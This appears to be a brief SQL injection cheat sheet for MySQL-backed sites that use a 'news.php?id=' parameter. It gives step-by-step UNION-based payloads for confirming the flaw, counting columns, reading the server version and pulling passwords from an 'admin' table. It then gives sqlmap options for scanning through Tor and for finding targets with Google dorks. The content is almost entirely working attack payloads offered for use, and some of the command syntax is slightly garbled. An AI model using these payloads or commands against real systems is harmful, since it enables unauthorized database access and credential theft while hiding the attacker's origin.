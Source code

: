 				Identifying SQL Injection
-- end of url put a ' (quote)							http://ip/news.php?id=5'
-- error means website is vulnerable

				Finding Number of columns
-- Increment until you get a error 				http://ip/news.php?id=5 order by 1/*

				Checking Union Fuction
-- union all Number of columns found
-- http://ip/news.php?id=5 union all select 1,2,3/*

				Check MYSQL version
-- http://$ip/news.php?id=5 union all select 1,@@version,3/*

				Getting Column and Table Names
-- Table Names
-- http://ip/news.php?id=5 union all select 1,2,3 from admin/*
-- Column Names
-- http://ip/news.php?id=5 union all select 1,password,3 from admin/*

				SQLMap
-- Scan through Tor
	--tor-type=SOCKS5
-- List Databases
	--dbs


-- Use google Dorking
sqlmap -g “payload” –-random-agent -f –-batch –-answer=”extending=N,follow=N,keep=N,exploit=n”n